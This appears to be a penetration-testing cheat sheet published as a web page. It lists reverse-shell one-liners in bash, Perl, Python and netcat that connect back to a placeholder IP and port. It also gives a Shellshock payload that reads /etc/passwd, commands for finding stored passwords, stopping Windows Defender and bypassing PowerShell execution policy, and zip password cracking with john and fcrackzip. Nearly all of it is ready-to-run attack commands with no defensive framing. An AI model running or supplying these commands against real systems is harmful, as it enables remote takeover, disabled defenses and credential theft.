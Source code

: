 ```yaml
---
layout: default
---
```


# Shells | BASH | USEFUL COMMANDS |

## Bash

``` bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

## Perl
``` bash
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Python
``` bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## Netcat
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

## More reverse shell
``` bash
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```

# Interactive shell

## Python
``` bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Bash
``` bash
echo os.system('/bin/bash')
```
## Sh
``` bash
/bin/bash -i
```
## Perl
``` bash
perl -e 'exec "/bin/bash"'
```
## Ruby
``` bash
exec "/bin/bash"
```
## Lua
``` bash
os.execute('/bin/bash')
```
## Adjust Interactive shell
``` bash
stty size # Find your terminal size -> 50 235
Ctrl-Z
stty raw -echo  // Disable shell echo
fg
export SHELL=bash
export TERM=xterm OR export TERM=xterm-256color
stty rows 50 columns 235
```
# SHELLSHOCK
``` bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <URL>/cgi-bin/<SCRIPT>
```
# USEFUL LINUX COMMANDS
## Find a file
``` bash
locate <FILE>
find / -name "<FILE>"
```
## Active connection
``` bash
netstat -lntp
```
## List all SUID files
``` bash
find / -perm -4000 2>/dev/null
```
## Determine the current version of Linux
``` bash
 cat /etc/issue
```
## Determine more information about the environment
``` bash
uname -a
```
## List processes running
``` bash
ps -faux
```
## List the allowed (and forbidden) commands for the invoking use
``` bash
sudo -l
```
# USEFUL WINDOWS COMMANDS
``` bash
net config Workstation
systeminfo
net users

ipconfig /all
netstat -ano

schtasks /query /fo LIST /v
tasklist /SVC
net start
DRIVERQUERY

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

dir /s pass == cred == vnc == .config
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
# Disable windows defender
``` bash
sc stop WinDefend
```
# Bypass restriction
``` bash
powershell -nop -ep bypass
```
# List hidden files
``` bash
dir /a
```
# Find a file
``` bash
dir /b/s "<FILE>"
```
ZIP
``` bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' file.zip
```
``` bash
zip2john file.zip > zip.john
john --wordlist=<PASSWORDS_LIST> zip.john
```